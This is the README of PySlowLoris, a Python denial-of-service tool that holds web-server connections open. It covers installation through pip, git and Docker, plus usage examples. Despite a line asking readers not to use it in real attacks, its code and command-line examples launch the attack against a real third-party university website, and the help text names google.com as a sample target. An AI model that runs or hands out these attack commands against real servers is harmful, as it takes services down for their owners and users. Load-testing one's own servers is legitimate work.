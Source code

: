 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-2.7-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![Requirements Status](https://requires.io/github/maxkrivich/SlowLoris/requirements.svg?branch=master)](https://requires.io/github/maxkrivich/SlowLoris/requirements/?branch=master)
[![Code Health](https://landscape.io/github/maxkrivich/SlowLoris/master/landscape.svg?style=flat)](https://landscape.io/github/maxkrivich/SlowLoris/master)
[![PyPI version](https://badge.fury.io/py/PySlowLoris.svg)](https://badge.fury.io/py/PySlowLoris)
[![Help Contribute to Open Source](https://www.codetriage.com/maxkrivich/slowloris/badges/users.svg)](https://www.codetriage.com/maxkrivich/slowloris)

This repository was created for testing Slow Loris vulnerability on different web servers. SL based on keeping alive open connection as long as possible and sending some trash headers to the server. If you are interested what I'm trying doing here, please join my team and let's do fun together. Please DO NOT use this in the real attacks on the servers.

The main reason why I'm writing this module it is to create the easy tool for the fast check a small personal or corporate web server what based on Apache and etc. Also, last but not least reason is to improve my skills in this sphere.

More information you can find [here].

### Installation

#### PyPi

To install PySlowLoris, run this command in your terminal:

```sh
$ pip install pyslowloris
```
This is the preferred method to install PySlowLoris, as it will always install the most recent stable release.


#### Source files

In case you downloaded or cloned the source code from [GitHub](https://github.com/maxkrivich/SlowLoris) or your own fork, you can run the following to install cameo for development:

```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ virtualenv --python=python[version] venv
$ source venv/bin/active
$ pip install --editable .
```

#### Docker Hub

Pulling image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run container:

```sh
$ docker pull maxkrivich/pyslowloris
$ docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run container: 

```sh
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

**Note:** *Don't forget about 'sudo'!*

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] [-u URL] [-s SOCKET_COUNT] [-p PORT]

Small and simple tool for testing Slow Loris vulnerability

optional arguments:
  -h                show this help message and exit
  -u URL            link to the web server (http://google.com) - str
  -s SOCKET_COUNT   maximum count of created connection (default value 300) - int
  -p PORT           port what will be used - int

```

#### Using PySlowLoris from code

Here are some example to start attack from Python code

```py
import time
from PySlowLoris import TargetInfo, SlowLorisAttack

target = TargetInfo(url="http://kpi.ua/", port=80)
target.get_info()
slowloris = SlowLorisAttack(target)
slowloris.start_attack() # stop_attack()

while True:
    time.sleep(1)

```

#### Using PySlowLoris from terminal

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -s 300
```
###### stop execution: Ctrl + C


### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact [me].


### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017 Maxim Krivich

[maxkrivich.github.io](https://maxkrivich.github.io/)



[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
[me]: <https://maxkrivich.github.io>
